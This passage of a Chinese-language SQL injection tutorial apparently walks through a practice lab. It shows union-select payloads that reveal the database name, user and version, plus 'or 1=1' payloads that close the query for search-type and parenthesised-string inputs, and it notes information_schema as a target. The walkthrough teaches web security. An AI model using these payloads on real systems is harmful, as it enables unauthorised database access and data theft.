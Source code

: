 ![](https://img-blog.csdnimg.cn/aa3dda8ea4bd442da5e36c6b8b77e5c9.png)
![](https://img-blog.csdnimg.cn/99acaece40724680b3444de03db6ea96.png)
再次查询，正常报错，也就是说主查询里有两个字段。
![](https://img-blog.csdnimg.cn/47b3ff5d929d4a25ab3cf8a3ec35f71b.png)
确认字段后，我们使用联合查询。
```
x' union select database(),user()#
```
如下图，我们查询出了数据库名称和当前用户。
![]()
我们还可以查询数据库版本。

x' union select version(),4#
我们可以看到数据库版本为：5.7.26，我们输入的4也正常打印了出来。
![](https://img-blog.csdnimg.cn/f00ced76fb99451ea9161585d3bc0536.png)

>mysql知识点：
select version(); //查询数据库版本
select database(); //查询当前的数据库名称
select user(); //查询当前登录的用户
order by x //对查询的结果进行排序，默认数字0-9，字母a-z union select //联合查询，必须与主查询的字段个数保持一致。
information_schema
在mysql中，自带的information_schema数据库里面存放了大量的重要信息。具体如下：
如果存在注入点的话，我们可以尝试对该数据库进行访问，从而获取更多的信息。
SCHEMATA表：提供了当前mysql实例中所有数据库的信息。
TABLES表：提供了表的信息（包括视图）。详细描述了某个表属于哪个 schema，表类型，表引擎，创建时间等信息。
COLUMNS表：提供了表中字段的信息。

搜索型注入
输入字符k，搜索
![](https://img-blog.csdnimg.cn/2fae69d59b7a4f65a17b8228d52d774c.png)
返回了所有含有k的用户。
```sql
select from 表名 where username like '%k%';
```
这种查询比get多了%号，我们同样构造闭合。

payload：k%' or 1=1#     注意or的两边要有空格，这是sql规定的语法格式，否则将报错
select from 表名 where username like '%k%' or 1=1 #%';
![](https://img-blog.csdnimg.cn/ab1b7123ae43450f906b0316b480d6b0.png)
![](https://img-blog.csdnimg.cn/3cf8ff5269e64345b773cec5ec9fdf49.png)

xx型注入
查看后端源码
![](https://img-blog.csdnimg.cn/16a2b2cf32484ea1b73988f97ba144ce.png)
想办法构造闭合
select id,email from member where username=('$name');
payload:   xx') or 1=1#
select id,email from member where username=('xx') or 1=1#');
![](https://img-blog.csdnimg.cn/6349c722b8c94374974ca7a7c727a4b6.png)
![](https://img-blog.csdnimg.cn/fbd2e85f2df24ecb940c68f3e068c740.png)
